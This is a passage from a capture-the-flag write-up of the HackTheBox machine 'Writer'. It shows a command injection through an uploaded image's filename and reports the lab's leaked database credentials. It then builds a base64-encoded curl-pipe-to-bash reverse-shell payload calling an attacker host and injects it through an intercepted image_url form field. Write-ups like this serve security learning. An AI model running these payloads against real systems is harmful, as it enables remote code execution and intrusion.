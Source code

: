 
This file imports the file `/var/www/writer.htb/writer/__init__.py` which was also downloaded using the shared python snippet and from it, we could check for a Code Injection opportunity in Writer :smile:.

From the `__init__.py` we could get the following info:

- Database credentials:  **admin:ToughPasswordToCrack**, from function `connections()`
- For both app routes `/dashboard/stories/add` and `/dashboard/stories/edit`, if `image_url` is specified it downloads a local copy and them **run OS command `mv`**, moving it to the folder `/var/www/writer.htb/writer/static/img/`, which could possibly get us a foothold opportunity :smile:

## Initial access

Playing around in my machine with an excerpt of the `__init__.py` which handles the image_url attribute I have figured out that, if I upload a file with a code execution on its name like `poc.jpg; $(id)` it will execute the command when it tries to `mv` the files around.

```bash
$ python3 test.py
mv /opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id) /opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id).jpg
mv: missing destination file operand after '/opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg'
Try 'mv --help' for more information.
sh: 1: uid=1000(zurc): not found
sh: 1: uid=1000(zurc): not found
mv /tmp//opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id).jpg /opt/dcruz/htb/writer-10.10.11.101/exploit//opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id).jpg
mv: missing destination file operand after '/tmp//opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg'
Try 'mv --help' for more information.
sh: 1: uid=1000(zurc): not found
sh: 1: uid=1000(zurc): not found
```

Changing that to a reverse shell payload and making a request to the webserver, I was able to get a reverse shell, as detailed below:

- Creates a file to be uploaded as a story image

  ```bash
  $echo 'curl http://10.10.10.10/1 | bash' | base64 -d
  Y3VybCBodHRwOi8vMTAuMTAuMTQuMTI1LzEgfCBiYXNoCg==
  
  $ touch 'poc.jpg; $(echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMTI1LzEgfCBiYXNoCg== | base64 -d | bash);'
  ```

- Start a listener for the port you have specified

- Create a Story image in the portal and upload it normally using the portal. This still won't trigger the vulnerability we have identified as `image_url` isn't populated.

- Now, for the same post, edit it and intercept the request on Burp Suite. You don't need to specify anything during edit but you have to add the following value of `image_url`

  ```plaintext
  [...]
  
  ------WebKitFormBoundarylL9ESPDLhZISoR3l
  Content-Disposition: form-data; name="image_url"
  
  file:///var/www/writer.htb/writer/static/img/poc.jpg; $(echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMTI1LzEgfCBiYXNoCg== | base64 -d | bash);
  
  [...]
  ```
